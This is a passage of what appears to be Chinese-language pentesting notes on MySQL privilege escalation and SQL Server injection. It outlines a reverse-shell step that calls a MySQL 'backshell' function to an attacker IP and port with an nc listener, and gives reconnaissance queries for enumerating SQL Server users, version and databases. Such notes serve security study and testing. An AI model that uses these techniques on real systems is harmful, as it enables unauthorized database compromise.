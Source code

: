 



### 4.反弹SHELL提权(重点)

> 用于UDF没有成功取得cmdshell和MOF提权都失败的情况(对方把一些拓展/配置禁用了)

```bash
#采用MYSQL反弹函数获取权限，不再调用命令执行类函数!
select backshell(ip, 端口)

# 然后在自己机器上nc监听

```



### 5.sqlmap提权



### 6.利用msf提权









# SQL Server注入

## 简介

**权限分析：**

- sa (最高权限，所有操作都可以做)
- db （拥有者权限， 多个数据操作）
- public （单个数据操作[可能只有某个数据库甚至没权限]）



注释：

```
-- comment goes here
/* comment goes here */
```



常用查询：

```bash
# 查看用户
SELECT CURRENT_USER
SELECT user_name();
SELECT system_user;
SELECT user;

# 数据库版本
SELECT @@version

# 数据库名
SELECT DB_NAME()

#列数据库
SELECT name FROM master..sysdatabases;
SELECT DB_NAME(N); — for N = 0, 1, 2, …
SELECT STRING_AGG(name, ', ') FROM master..sysdatabases; -- Change delimeter value such as ', ' to anything else you want => master, tempdb, model, msdb   (Only works in MSSQL 2017+)

```